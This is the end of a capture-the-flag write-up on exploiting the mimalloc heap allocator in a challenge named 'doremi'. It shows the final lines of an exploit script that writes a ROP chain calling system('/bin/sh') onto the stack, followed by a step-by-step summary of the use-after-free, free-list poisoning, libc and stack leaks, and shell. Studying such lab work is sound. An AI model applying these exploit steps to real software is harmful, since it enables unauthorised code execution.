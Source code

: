 ```python
ret = libc.address + 0x0000000000014126
system = libc.address + 0x00000000000501b0
payload = pack(rdi) + pack(next(libc.search('/bin/sh\0'))) + pack(ret) + pack(libc.sym.system)
ret_addr = stack_leak-0x70
edit(3,pack(ret_addr))
create(5)
edit(5,payload)
r.interactive()
```

---

## ♘Summary

- Mimalloc allocates memory in 4 MiB segments split into 64 KiB pages, each page managing fixed-size chunks with three free lists (allocation, local, thread).
- A heap leak is obtained by freeing a chunk and reading it back (since freed pointers aren’t nulled), revealing a heap address.
- Allocations are always served from the **allocation free list** first. Once this list is empty, the allocator calls the **slow path (`malloc_generic`)**, which pulls chunks from the **local free list** (by merging it back).
- Using UAF, we overwrite free list pointers (like tcache poisoning) and allocate a fake chunk inside the metadata region, which also holds libc pointers. Reading it gives both a libc leak and control over the free lists.
- To pivot to the stack, we redirect the allocation free list to `libc.environ`, leak the stack pointer.
- Finally, we set the allocation free list head to the return address, allocate a chunk, write our ROP chain there, and when `update` returns, execution jumps into our chain → shell.

![image.png](/d1ff/doremi/9444d9a9-7884-4519-a379-604e25d152cc.png)

---

## Resources & References

[https://2025.uiuc.tf/](https://2025.uiuc.tf/) , [https://sigpwny.com/](https://sigpwny.com/)

- [https://microsoft.github.io/mimalloc/](https://microsoft.github.io/mimalloc/)
- [https://www.microsoft.com/en-us/research/wp-content/uploads/2019/06/mimalloc-tr-v1.pdf](https://www.microsoft.com/en-us/research/wp-content/uploads/2019/06/mimalloc-tr-v1.pdf)
- `for setup` → [https://ctftime.org/writeup/28214](https://ctftime.org/writeup/28214)

---

> Author: [_d1ff](https://discord.com/users/1157208253055381504)  
> URL: http://localhost:1313/d1ff/posts/uiu_writeup/doremi/  

